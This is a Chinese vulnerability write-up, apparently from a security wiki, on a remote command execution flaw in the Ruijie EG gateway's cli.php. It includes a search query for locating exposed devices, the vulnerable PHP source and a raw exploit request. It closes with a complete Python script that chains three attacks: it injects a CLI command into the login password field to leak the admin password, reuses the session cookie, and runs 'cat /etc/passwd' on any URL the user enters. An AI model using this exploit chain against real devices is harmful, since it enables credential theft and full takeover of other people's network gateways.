

# 锐捷 EG易网关 cli.php 远程命令执行漏洞

## 漏洞描述

锐捷EG易网关 cli.php存在命令执行漏洞，配合 锐捷EG易网关 管理员账号密码泄露漏洞 达到RCE控制服务器

## 漏洞影响

```
锐捷EG易网关
```

## 网络测绘

```
app="Ruijie-EG易网关"
```

## 漏洞复现

首先登录到后台中(可以组合 锐捷EG易网关 管理员账号密码泄露漏洞)

漏洞文件 cli.php

```php
<?php

/**
 * cli命令查询
 */
define('IN', true);     //定位该文件是入口文件
define('DS', DIRECTORY_SEPARATOR);
define('AROOT', dirname(__FILE__) . DS);
include_once(AROOT . 'mvc' . DS . 'controller' . DS . 'core.controller.php');

class defaultController extends coreController {

    function __construct() {
// 载入默认的
        parent::__construct();
    }

    /**
     * cli命令执行
     */
    public function indexAction() {
        $mode = p("mode_url");
        $command = p("command");
        $answer = p("answer");

        if ($mode == false)
            $mode = "exec";
        if ($answer == false)
            $answer = "";
        if ($command !== false)
            $command = iconv('UTF-8', 'GBK//IGNORE', $command);
        $data = execCli($mode, $command, $answer);
        if ($data["status"] !== 1) {
            json_echo($data);
            exit();
        }
        $res = preg_replace(array("/%01/", "/%22/", "/%09/", "/%0D/", "/%3A/","/%07/"), array("", '"', "\t", "", ":",""), urlencode($data["data"])); //先进行url编码防止gbk中文无法json,再过滤首尾空方块
        $resArr = explode("%0A", $res);
        //$resArr = preg_split("/\r\n|\n/", $data["data"]);
        if ($mode == "config" && strstr($resArr[0], "Enter+configuration+commands%2C+one+per+line.++End+with+CNTL%2FZ."))
            array_shift($resArr);
        $data["data"] = $resArr;
        if (!headers_sent()) {
            header("Content-type: text/json;charset=gbk");
            //header("Expires: Thu, 01 Jan 1970 00:00:01 GMT");
            header("Cache-Control: no-cache, must-revalidate");
            header("Pragma: no-cache");
        }
        echo urldecode(json_encode($data));
        //echo json_encode($data);
    }

    /**
     * 执行shell脚本
     */
    public function shellAction() {
        $command = p("command");
        if ($command == false) {
            $data["status"] = 2;
            $data["msg"] = "no command";
            json_echo($data);
            exit();
        }
        $content = [];
        exec(EscapeShellCmd($command), $content);
        $data = array("status" => true,
            "data" => $content);
        json_echo($data);
    }

    /**
     * 获取系统时间
     */
    public function dateAction() {
        setTimeZone();
        $data['status'] = true;
        $data["data"]["time"] = date("Y-m-d H:i:s");
        $data["data"]["zone"] = "UTC" . getTimeZone();
        json_echo($data);
    }

    /**
     * 获取系统时区
     */
    public function datezoneAction() {
        $data['status'] = true;
        $data["data"] = getTimeZone();
        json_echo($data);
    }

    /**
     * 检测静态页面时候未登录直接进入
     */
    public function checkloginAction() {
        json_echo(array("status" => true));
    }

}

include_once(AROOT . "init.php");     //mvc初始化入口，放在底部
```

关键部分代码为

```php
/**
     * 执行shell脚本
     */
    public function shellAction() {
        $command = p("command");
        if ($command == false) {
            $data["status"] = 2;
            $data["msg"] = "no command";
            json_echo($data);
            exit();
        }
        $content = [];
        exec(EscapeShellCmd($command), $content);
        $data = array("status" => true,
            "data" => $content);
        json_echo($data);
    }
```

command参数直接传入执行了命令

发送请求包

```plain
POST /cli.php?a=shell HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 24
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=nk5erth9i0pvcco3n7fbpa9bi0;user=admin; 
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

notdelay=true&command=id
```


## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 锐捷EG网关 cli.php RCE                                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login.php"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'username=admin&password=admin?show+webmaster+user'
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 show webmaster user \033[0m".format(target_url))
        if "data" in response.text and response.status_code == 200:
            password = re.findall(r'admin (.*?)"', response.text)[0]
            print("\033[36m[o] 成功获取, 账号密码为:  admin   {} \033[0m".format(password))
            POC_2(target_url, password)
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

def POC_2(target_url, password):
    vuln_url = target_url + "/login.php"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'username=admin&password={}'.format(password)
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在登录..... \033[0m".format(target_url))
        if "status" in response.text and "1" in response.text and response.status_code == 200:
            ruijie_cookie = "RUIJIEID=" + re.findall(r"'Set-Cookie': 'RUIJIEID=(.*?);", str(response.headers))[0] + ";user=admin;"
            print("\033[36m[o] 成功获取管理员Cookie: {} \033[0m".format(ruijie_cookie))
            POC_3(target_url, ruijie_cookie)

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

def POC_3(target_url, ruijie_cookie):
    vuln_url = target_url + "/cli.php?a=shell"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
                "Cookie": "{}".format(ruijie_cookie)
    }
    data = 'notdelay=true&command=cat /etc/passwd'
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 cat /etc/passwd..... \033[0m".format(target_url))
        if "root:" in response.text and response.status_code == 200:
            print("\033[36m[o] 成功读取 /etc/passwd \n[o] 响应为:{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```


